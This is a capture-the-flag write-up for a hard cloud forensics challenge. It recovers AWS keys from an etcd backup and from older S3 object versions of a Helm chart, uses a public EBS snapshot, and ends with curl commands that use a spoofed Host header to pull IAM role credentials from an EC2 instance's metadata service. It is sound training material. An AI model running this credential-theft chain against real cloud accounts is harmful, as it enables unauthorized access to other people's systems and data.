
Click here to vist PwnSec 2k24


### Info;
  - Writers: CodeBreaker44 & chxmxii
  - Difficulty: Hard
  - Category: Forensics
  - Solvers: 0
  - Description: Be Wary Of Shortcuts To Knowledge
  - Skills required:
    1. Cloud 
    2. k8s
    3. helm chart
    4. aws pentesting


### Solution:

#### Part I: Getting the AWS Creds from ETCD;
you are first given a `zip` file called `kloud-10` after unzipping the file you will find a file called `db` this file is an etcd backup file in order to deal with it you need to have etcd install in order to deal with it:

first you need to run the following:

```shell
etcdctl get / --prefix
```

This command retrieves all key-value pairs stored in etcd that start with /. The --prefix option specifies that the query should return all entries whose key starts with the specified path /. The output includes various configuration settings related to an application.



#### Part II: Enumerating the AWS account;
we notice a list of keys with a wide range of options and values, if we go through them will notice one with the name `/cloud10/config/aws`

it does include include information about a bucket name and the region the bucket is in.

now if we go with the rest of the keys we will find another one related to aws 
`/cloud10/secrets/aws-creds` 

of we tried to examine it we will notice its empty, but if added an option to our command to retrieve an older version we will get the following output:


as we can see the output included AWS access keys, lets configure them and see what we can do with these creds:

```shell
aws configure
```


lets check the identity of the user we are dealing with:

```shell
aws sts get-caller-identity 
```



based on the output of the previous command the name of the user we are dealing with is called `Freya` now lets see what user `Freya` can do:

first thing is to check for any attached user polices:

```shell
aws list-attached-user-policies --user-name Freya 
```


as we can notice user `Freya` does not have permission to list attached managed policies, lucky there are two types of polices in aws `inline` and  `managed`

you can read more about here:
[Managed policies and inline policies](https://docs.aws.amazon.com/IAM/latest/UserGuide/access_policies_managed-vs-inline.html)

now based on this lets check if user `Freya` can list inline polices:

```shell 
aws iam list-user-policies --user-name Freya 
```



as we can see, user `Freya` has a policy with the name `FreyaBoundPolicy` lets try to get the policy and see whats inside:

```shell
aws iam get-user-policy --user-name Freya --policy-name FreyaBoundPolicy | jq
```



as we can notice user `Freya` has access to two buckets :
1. vanaheim55 
2. midgard55

lets try to list the contents of of bucket `vanaheim55`:

```shell
aws s3 ls s3://vanaheim55
```


Jackpot we found the flag lets get it:

```shell
aws s3 cp s3://vanaheim55/flag.txt .
```





if we notice the policy again we will see that the user `Freya` is not allowed to get objects from s3 bucket but she only can list objects :((

therefore lets check bucket `midgard55`:

```shell
aws s3 ls s3://midgard55
```
#### Part III: Retreiving the second iam creds from the helm chat;


as it can be observed from the policy that user `Freya` can list objects and get objects from bucket `midgard55` in addition she can list versions of objects indicating that s3 bucket versioning is enabled for bucket `midgard55` lets start checking these files and what they are:

based on the structure of the objects we can notice that these files are for a `helm chart`


**Helm chart?** Helm charts are a collection of files that describe a Kubernetes cluster's resources and package them together as an application


for more info check: 
helm.sh


now since we have a better understanding of what we are dealing with we have two options:

1. get all files of the chart and try to install the helm chart to a k8s cluster of our own
2. check manually for any interesting stuff within the files


for the purpose of the writeup lets stick with second option.

lets copy everything within the bucket:

```shell 
aws s3 sync s3://midgard55 .
```



now lets start looking for anything useful:

starting with `Chart.yaml`:



nothing so much useful

lets check `values.yaml`



still nothing lets jump inside `templates` directory:



lest check `NOTES.txt`:



as we can see there is a message about some exposed secrets by an intern, we know that the bucket has s3 versioning enabled so it means maybe something was within this file before lets check that:

```shell
aws s3api list-object-versions --bucket midgard55
```



as it can be observed there is a previous version of `NOTES.txt` lets get the old one and see whats inside:

```shell
aws s3api get-object --bucket midgard55 --key 'templates/NOTES.txt' --version-id B8lWaRH7dB_ymDyICm_NAsBVO_qNpDfQ old_NOTES.txt
```



there are a bunch of notes related to the helm chart, lets focus on the second note, there is a snapshot id

lets keep this for later

now lets check other files

` VolumeSnapshotContent.yml`:

```yaml
apiVersion: snapshot.storage.k8s.io/v1
kind: VolumeSnapshotContent
metadata:
  name: {{ .Values.volumeSnapshotContentName }}
spec:
  volumeSnapshotRef:
    kind: VolumeSnapshot
    name: static-snapshot-demo
    namespace: default 
  source:
    snapshotHandle: {{ .Values.snapshotHandle }}
  driver: ebs.csi.aws.com
  deletionPolicy: Delete
  volumeSnapshotClassName: csi-aws-vsc
  ```

  as we can see there are nothing useful here too 

  lets check other files:

` serviceaccount.yaml`:

```yaml
{{- if .Values.serviceAccount.create -}}
apiVersion: v1
kind: ServiceAccount
metadata:
  name: {{ include "yggdrasill.serviceAccountName" . }}
  labels:
    {{- include "yggdrasill.labels" . | nindent 4 }}
  {{- with .Values.serviceAccount.annotations }}
  annotations:
    {{- toYaml . | nindent 4 }}
  {{- end }}
automountServiceAccountToken: {{ .Values.serviceAccount.automount }}
{{- end }}
```

nope again lets check `_helpers.tpl`:

```yaml
{{/*
Expand the name of the chart.
*/}}
{{- define "yggdrasill.name" -}}
{{- default .Chart.Name .Values.nameOverride | trunc 63 | trimSuffix "-" }}
{{- end }}

{{/*
Create a default fully qualified app name.
We truncate at 63 chars because some Kubernetes name fields are limited to this (by the DNS naming spec).
If release name contains chart name it will be used as a full name.
*/}}
{{- define "yggdrasill.fullname" -}}
{{- if .Values.fullnameOverride }}
{{- .Values.fullnameOverride | trunc 63 | trimSuffix "-" }}
{{- else }}
{{- $name := default .Chart.Name .Values.nameOverride }}
{{- if contains $name .Release.Name }}
{{- .Release.Name | trunc 63 | trimSuffix "-" }}
{{- else }}
{{- printf "%s-%s" .Release.Name $name | trunc 63 | trimSuffix "-" }}
{{- end }}
{{- end }}
{{- end }}

{{/*
Create chart name and version as used by the chart label.
*/}}
{{- define "yggdrasill.chart" -}}
{{- printf "%s-%s" .Chart.Name .Chart.Version | replace "+" "_" | trunc 63 | trimSuffix "-" }}
{{- end }}

{{/*
Common labels
*/}}
{{- define "yggdrasill.labels" -}}
helm.sh/chart: {{ include "yggdrasill.chart" . }}
{{ include "yggdrasill.selectorLabels" . }}
{{- if .Chart.AppVersion }}
app.kubernetes.io/version: {{ .Chart.AppVersion | quote }}
{{- end }}
app.kubernetes.io/managed-by: {{ .Release.Service }}
{{- end }}

{{/*
Selector labels
*/}}
{{- define "yggdrasill.selectorLabels" -}}
app.kubernetes.io/name: {{ include "yggdrasill.name" . }}
app.kubernetes.io/instance: {{ .Release.Name }}
{{- end }}

{{/*
Create AWS Secret
*/}}
{{- define "yggdrasill.awsCredentials" -}}
AWS_ACCESS_KEY_ID: {{ "REDACTED" | quote }}
AWS_SECRET_ACCESS_KEY: {{ "REDCATED" | quote }}
{{- end }}

{{/*
Create the name of the service account to use
*/}}
{{- define "yggdrasill.serviceAccountName" -}}
{{- if .Values.serviceAccount.create }}
{{- default (include "yggdrasill.fullname" .) .Values.serviceAccount.name }}
{{- else }}
{{- default "default" .Values.serviceAccount.name }}
{{- end }}
{{- end }}
```

as we can see there are REDACTED aws creds indicating that there were aws access keys here before lets use aws s3 versioning to get them back:



```shell
aws s3api get-object --bucket midgard55 --key 'templates/_helpers.tpl' --version-id BQzEKSL7WvaPin7HeCD43AUUi2NHQx7. old_helpers.tpl
```



BINGO we found new aws access keys, lets configure them 

```shell
aws configure
```
#### Part IV: Enumerating the second AWS account;
lets check the identity of the new user 

```shell
aws sts get-caller-identity
```


we have a new user called `Mimir`

lets check if it does have any policies attached:


```shell

aws iam list-attached-user-policies --user-name Mimir
aws iam list-user-policies --user-name Mimir
```

both of the previous commands fails to show us anything indicating that user `Mimir` does not have any permission to list policies.

in this case we could use an enumeration tool like
[aws-enumerator](https://github.com/shabarkin/aws-enumerator?tab=readme-ov-file) 

but it fails too, and nothing was available.

If we recall we found a snapshot ID lets try and see if we can list its attributes

```shell
 aws ec2 describe-snapshot-attribute --attribute createVolumePermission --snapshot-id snap-019f040d**********
 ```

 

#### Part V: Creating a new EC2 instance based on the snapshot-id;
first lets understand what we did:

* since we got a snapshot id we should check if its public or not by describing its `createVolumePermission` attribute cause this attribute is responsible if any aws account can create volumes from this snapshot or not and since it does have the value of `all` then you can create any aws account, and search for the snapshot ID, then create an `ebs` volume from this snapshot then create an `ec2` instance and attach the newly created volume from the snapshot to the ec2 instance and see if there is anything we can take advantage of.


after doing so you will start looking for any useful files 
one that outstand from the other is this file:
`/etc/systemd/system/aws-configure.service`

lets check it 

```bash
[Unit]
Description=Service to Connect to Remote EC2 Instance via IP Address
After=network.target

[Service]
ExecStart=/tmp/connect_to_ec2.sh 52.6.102.237
ExecReload=/bin/kill -HUP $MAINPID
ExecStop=/bin/kill -WINCH $MAINPID
Restart=on-failure
User=Magni
WorkingDirectory=/home

[Install]
WantedBy=multi-user.target
```

we notice that this is a custom service that connects to an `ec2` instance 
with a specific ip address.


if we tried to ping the machine it will fail, but since this is the only info we have about it lets try to get its meta data :


in order to do so we need to specify the host IP address which is 
`169.254.169.254`

<blockquote >
  <h3>What is 169.254.169.254 address ?</h3>
  <p>
    These are dynamically configured link-local addresses. They are only valid on a single network segment and are not to be routed.
Of particular note, 169.254.169.254 is used in AWS, Azure, GCP and other cloud computing platforms to host instance metadata service.
  </p>
</blockquote>

#### Part VI: Getting the flag;

```shell
curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'
```

```shell
curl http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'
```

```shell
​aws configure --profile Magni
```

```shell
​aws_session_token = <session-token>
```

```shell
​aws s3 ls --profile Magni
```
```shell
aws s3 cp s3://vanaheim55/flag.txt . --profile Magni
```

FLAG: PWNSEC{d347h_c4n_h4v3_m3_wh3n_17_34rn5_m3_68234}